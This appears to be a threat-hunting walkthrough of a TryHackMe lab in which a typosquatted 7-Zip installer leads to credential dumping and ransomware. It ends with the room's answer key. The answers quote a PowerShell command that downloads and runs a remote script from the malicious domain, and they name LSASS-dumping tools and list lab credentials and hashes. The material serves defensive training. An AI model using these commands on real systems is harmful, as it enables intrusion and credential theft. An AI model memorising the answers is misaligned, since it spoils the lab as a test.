 # TryHackMe-Hunt Me II: Typo Squatters

![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/d101cb23-0571-4dae-bb0d-6f8f076897f0/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=0c87c223fb79020234c84196501af81accee3691842ce4f16dde0f8541ecbbee&X-Amz-SignedHeaders=host&x-id=GetObject)
## Scenario
# Scenario
Just working on a  typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realizing that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.
![Image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5dbea226085ab6182a2ee0f7/room-content/f556cb74ecd4a6fc10926b8fcbb9cff4.png)
Last September 26, 2023,
 one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this  workstation and assess the impact of the potential compromise.

## Investigation
I began searching for downloads from 7zipp[.]org and event_id 15 and found where the user downloaded the package.
 
![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/63ec031c-c5ae-4b50-9eba-ff6fb0e32cf3/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=17272ba3c90bb19732fa1b32041015e68d64d95cce2fe0bf11fb821e47ee6642&X-Amz-SignedHeaders=host&x-id=GetObject)

Searching for dns events involving 7zipp[.]org revealed the IP address of the malicious domain
![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/46a3464a-61d5-4785-a37f-c593c65acedd/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=ea266480f9544032f6cc4206d59a42b2d95f47bc188f879fd4ba8f145a138a69&X-Amz-SignedHeaders=host&x-id=GetObject)

Searching for the pid where the malicious software was executed by searching for the filename and event id 1 
![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/587b5e65-f58b-4c65-940a-481f68edc3d2/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=b6e4233d01892377883760e42cae2d49d1e3271a4382ce6ad565aff5bc3fafb1&X-Amz-SignedHeaders=host&x-id=GetObject)

Following the execution chain, searching for event id 1 and the domain 7zipp[.]org, I was able to find the next step in the software process by looking for events after the execution time of 9/26/2023 @14:23.00.817
Below you can also see the new file that was downloaded and the service creation 
![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/d3eeda77-9c78-4663-a9a3-38afd2137a0e/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=b828955ce31228fd4a225e86b2cf1d9aa49242412365335e83da9b1c5bac993a&X-Amz-SignedHeaders=host&x-id=GetObject)

Looking further into the new service that was created, we can see that it was created and executed by the SYSTEM user so the process has the highest level of privilege.
![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/1ca40d07-b9af-4172-818b-eecb6ba2815b/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=7e62c4b30fb2810967c9d4f6b66f7f18d88853f49789a5c3746c1bc70354e94f&X-Amz-SignedHeaders=host&x-id=GetObject)

We can search for lsass.dmp to see what tool was used to parse the data extracted
![Image](https://prod-files-secure.s3.us-west-2.amazonaws.com/0cfa02cd-92e7-492f-8163-1d853193c777/8d34aa40-e852-4e1e-953d-ecf3ac77c664/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466UN3I7X5Y%2F20250410%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250410T184019Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCCpVkIF3uAuLvf8GEkm7XC14viv5V6zd4X2AYvsR1ApwIgYTT%2FphXgE7y90mFUEh1Jjznhxo3ZpzBBlzULCY7g4CwqiAQIrP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGD6PBCswxCVcwmMvSrcA3AnC2%2FpoAPy7eNrIn%2BBikFmfKGYmOsZgbFi1FIow6JRL4IVf%2FNYdRkheWsEtBo5TU%2FiN85%2F3f%2F22rAyAlDyXO1XCOlh7PA0l0B0MSWLyMXE%2FTXYyq%2B2mv5QqqXS09uOrZIct7T4L4n3nkq6vULP7uLuY0%2BYgnhhEfHMd39L1itMkYzpMK9l9oUGUxkLyMitErndJqf5Kk1OHIua1lIAAfrhZtIguLJDzAKl5U09DRulI%2F61%2FMrC8ewo17RYID%2BiymuWIIlMRJPNNtmqh9LZIf%2FzgGFya5kHiLa1jdDZtsylFM8UvSX7kmS6jac2oBEVJsTxhPizu0Puou9%2FmI9scpk18owRhB%2BNrghI%2FEZVxmDoRUXTlxUoLrFXgA292DppPAxIIbDdg9gSkAuHFYwDptaqjufP77UvUgV6aUZa22lgyGhCxNC5kg7JTSDLRq4LODo%2B9X60yys302DVbyo8f3QeC%2Fdp%2FOr5S1DUzfePE685q3LoAgz0hyOkHMkEGUawHy1LSiutJ%2BrE54W8QE4k983fE2bKCCXTpFhif5T0l7XSSTFA8YJwfKEPMNfkH5FBSK884BGOpRQZtLg0RefJaOQGUWHmR9o9Wi50m0L8WRbZi3BlfssSSXEuWFI6MLef4L8GOqUBPK6btKKFK2nm85klXEbIulXkbd6TUhN1bfIpVOJUzw%2Fhwxfxj3nEoVXIU%2BL9Jc%2B55d02cbdY5kRSk2w6ch9tvD4%2FlP08TKqTyFqdj4AuCkHND7KNbwg9g%2FV5NUiwmVZV70Jtt987a7YC0AQSJ1eubVFL8ISqco8z6iO056WrUWbfXczRYQeSPPHMnoZlUn0wMHGYLAuuRMxtPI2t%2BwCIxqqsinJ%2F&X-Amz-Signature=33f40e72111f3d8b68acd043bcd3009fa1b075ffb343b5eea9da8935720c374f&X-Amz-SignedHeaders=host&x-id=GetObject)



## Questions
What is the URL of the malicious software that was downloaded by the victim user?
```javascript
http://www.7zipp.org/a/7z2301-x64.msi
```
What is the IP address of the domain hosting the malware?
```javascript
206.189.34.218
```
What is the PID of the process that executed the malicious software?
```javascript
2532
```
Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?
```javascript
powershell.exe, iex(iwr, http://www.7zipp.org/a/7z.ps1, -useb)
```
The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?
```javascript
C:\Windows\Temp\7zlegit.exe
```
What is the name of the service that was installed?
```javascript
7zService
```
The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?
```javascript
SYSTEM
```
After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?
```powershell
Invoke-PowerExtract
```
What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)
```javascript
james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF
```
After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?
```javascript
pwn3dpw!!!
```
What is the name of the workstation where the new account was used?
```javascript
WKSTN-02
```
After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?
```javascript
SSF\itadmin:NoO6@39Sk0!
```
Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?
```javascript
Invoke-SharpKatz.ps1
```
What is the AES256 hash of the domain admin based on the credential dumping output?
```javascript
f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534
```
After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?
```javascript
46
```


https://medium.com/@0x4C1D/try-hack-me-hunt-me-ii-typo-squatters-walkthrough-8da58af050d0

